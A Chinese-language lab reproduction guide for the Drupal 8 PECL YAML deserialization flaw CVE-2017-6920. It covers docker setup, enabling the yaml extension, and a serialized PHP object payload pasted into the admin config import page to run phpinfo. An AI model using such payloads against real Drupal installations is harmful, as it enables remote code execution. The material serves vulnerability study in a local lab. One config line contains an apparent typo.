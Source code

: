 # Drupal Core 8 PECL YAML 反序列化任意代码执行漏洞 CVE-2017-6920

## 漏洞描述

影响软件：Drupal

方式：反序列化

参考链接：[CVE-2017-6920:Drupal远程代码执行漏洞分析及POC构造](https://paper.seebug.org/334/)

效果：任意代码执行

> PECL：PHP Extension Community Library
>
> YAML：Yet Another Markup Language

## 环境搭建

Vulhub执行如下命令启动 drupal 8.3.0 的环境：

```bash
docker-compose up -d
```

环境启动后，访问 `http://your-ip:8080/` 将会看到drupal的安装页面，一路默认配置下一步安装。因为没有mysql环境，所以安装的时候可以选择sqlite数据库。

![image-20220222191227040](images/202202221912492.png)

## 漏洞复现

先安装 `yaml` 扩展

```
# 换镜像源，默认带vim编辑器，所以用cat换源，可以换成自己喜欢的源
cat > sources.list << EOF
deb http://mirrors.163.com/debian/ jessie main non-free contrib
deb http://mirrors.163.com/debian/ jessie-updates main non-free contrib
deb http://mirrors.163.com/debian/ jessie-backports main non-free contrib
deb-src http://mirrors.163.com/debian/ jessie main non-free contrib
deb-src http://mirrors.163.com/debian/ jessie-updates main non-free contrib
deb-src http://mirrors.163.com/debian/ jessie-backports main non-free contrib
deb http://mirrors.163.com/debian-security/ jessie/updates main non-free contrib
deb-src http://mirrors.163.com/debian-security/ jessie/updates main non-free contrib
EOF
# 安装依赖
apt update
apt-get -y install gcc make autoconf libc-dev pkg-config
apt-get -y install libyaml-dev
# 安装yaml扩展
pecl install yaml
docker-php-ext-enable yaml.so
# 启用 yaml.decode_php 否则无法复现成功
echo 'yaml.decode_php = 1 = 1'>>/usr/local/etc/php/conf.d/docker-php-ext-yaml.ini
# 退出容器
exit
# 重启容器，CONTAINER换成自己的容器ID
docker restart CONTAINER
```

登录一个管理员账号，访问 `http://[your ip]:8080/admin/config/development/configuration/single/import`

如下图所示，`配置类型` 选择 `简单配置`，`配置名称` 任意填写，`将配置粘贴到此处` 中填写PoC如下：

```
!php/object "O:24:\"GuzzleHttp\\Psr7\\FnStream\":2:{s:33:\"\0GuzzleHttp\\Psr7\\FnStream\0methods\";a:1:{s:5:\"close\";s:7:\"phpinfo\";}s:9:\"_fn_close\";s:7:\"phpinfo\";}"
```

![image-20220222191446025](images/202202221914100.png)

点击 `导入` 后可以看到漏洞触发成功，弹出 `phpinfo` 页面

![image-20220222191459724](images/202202221914816.png)


